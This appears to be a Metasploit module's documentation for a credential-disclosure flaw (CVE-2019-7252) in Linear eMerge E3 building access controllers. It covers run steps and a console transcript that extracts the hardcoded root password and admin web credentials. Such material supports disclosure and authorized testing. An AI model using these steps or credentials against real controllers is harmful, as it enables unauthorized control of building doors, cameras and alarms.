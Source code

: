 ## Vulnerable Application

Nortek Security & Control, LLC (NSC) is a leader in wireless security, home automation and personal safety systems and devices.
The eMerge E3-Series is part of Linear’s access control platform, that delivers entry-level access control to buildings.
It is a web based application where the HTTP web interface is typically exposed to the public internet.

Building Automation and Access Control systems are at the heart of many critical infrastructures, and their security is vital.
Executing attacks on these systems may enable unauthenticated attackers to access and manipulate doors, elevators, air-conditioning systems,
cameras, boilers, lights, safety alarm systems in an entire building.

Default credentials exist within a vulnerable configuration on the Linear eMerge E3 access controller that can be easily leveraged
to gain privileged access to the system.

The first credential vulnerability is based on a default root password that is a stored in the `/etc/passwd`.
This can be used to escalate to root privileges using the RCE vulnerability CVE-2019-7256 or use these credentials in combination
with ssh (if enabled) to get root access to the access controller.

The second credential vulnerability allows an unauthenticated malicious actor to obtain the admin web credentials admin from the
spider database that is accessible and readable for the world on the access controller.
With this access, the malicious actor is able to control the Linear eMerge E3 access controller platform, the access to building,
its cameras and the authority to manage the access rights of users.

This issue affects all Linear eMerge E3 versions up to and including `1.00-06`.

Installing a vulnerable test bed requires a Linear eMerge E3 access controller with the vulnerable software loaded.

This module has been tested against a Linear eMerge access controller with the specifications listed below:

* Nortek Linear eMerge E3 access controller
* Firmware < `v1.00-03`

## Verification Steps

1. `use auxiliary/admin/http/linear_emerge_cred_disclosure_cve_2019_7252`
1. `set RHOSTS <TARGET HOSTS>`
1. `run`
1. You should be able to check if the default root password `davestyle` is available and retrieve the admin web credentials.

## Options
`STORE_CRED <true/false>` which allows you to store the leaked credentials in the creds database of Metasploit

## Scenarios

### Nortek Linear eMerge E3 access controller credential disclosure

```
msf6 > auxiliary/admin/http/linear_emerge_cred_disclosure_cve_2019_7252
msf6 exploit(linux/http/linear_emerge_unauth_rce_cve_2019_7256) > options

Module options (auxiliary/admin/http/linear_emerge_cred_disclosure_cve_2019_7252):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   STORE_CRED  true             no        Store credentials into the database.
   TARGETURI   /                yes       Linear eMerge E3 path
   VHOST                        no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/http/linear_emerge_cred_disclosure_cve_2019_7252) > set rhosts 192.168.100.180
rhosts => 192.168.100.180
msf6 auxiliary(admin/http/linear_emerge_cred_disclosure_cve_2019_7252) > run
[*] Running module against 192.168.100.180

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.180:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.813634401994932 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Retrieving admin web credentials...
[+] Admin web credentials found: admin:cuckoo
[*] Credentials admin:cuckoo are added to the database...
[*] Checking for default root system credentials...
[+] Default root system credentials found: root:davestyle
[*] Credentials root:davestyle are added to the database...
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/linear_emerge_cred_disclosure_cve_2019_7252) > creds 192.168.100.180
Credentials
===========

host             origin           service        public  private    realm  private_type  JtR Format
----             ------           -------        ------  -------    -----  ------------  ----------
192.168.100.180  192.168.100.180  80/tcp (http)  root    davestyle         Password
192.168.100.180  192.168.100.180  80/tcp (http)  admin   cuckoo            Password
```

## Limitations
No limitations.
